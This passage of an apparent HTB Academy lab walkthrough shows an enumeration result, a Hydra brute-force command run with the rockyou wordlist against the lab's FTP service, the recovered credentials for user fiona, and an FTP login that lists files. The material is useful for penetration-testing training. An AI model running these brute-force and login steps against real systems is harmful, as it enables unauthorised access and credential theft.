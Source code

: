 ```bash
10.129.203.7: fiona@inlanefreight.htb exists
######## Scan completed at Sun Nov 27 14:11:36 2022 #########
1 results.

79 queries in 2 seconds (39.5 queries / sec)
```

**Result**: Valid user `fiona@inlanefreight.htb` discovered

---

## 🔐 Phase 3: Credential Attacks (FTP)

### FTP Password Brute Force
```bash
# HTB Academy FTP credential attack
# CRITICAL: Use -t 1 to avoid 550 errors
hydra -l fiona -P /usr/share/wordlists/rockyou.txt ftp://10.129.203.7 -u -t 1

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-27 15:06:58
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking ftp://10.129.203.7:21/
[STATUS] 74.00 tries/min, 74 tries in 00:01h, 14344325 to do in 3230:43h, 1 active
[21][ftp] host: 10.129.203.7   login: fiona   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```

**Result**: Valid credentials `fiona:987654321` discovered

---

## 📂 Phase 4: FTP Intelligence Gathering

### FTP Access & File Download
```bash
# HTB Academy FTP access
ftp 10.129.203.7

Connected to 10.129.203.7.
220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
Name (10.129.203.7:root): fiona
331 password required for fiona
Password: 987654321
230-Logged on
230 
Remote system type is UNIX.
Using binary mode to transfer files.

# Download intelligence files
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for LIST
docs.txt
WebServersInfo.txt
226 Transfer Complete

```
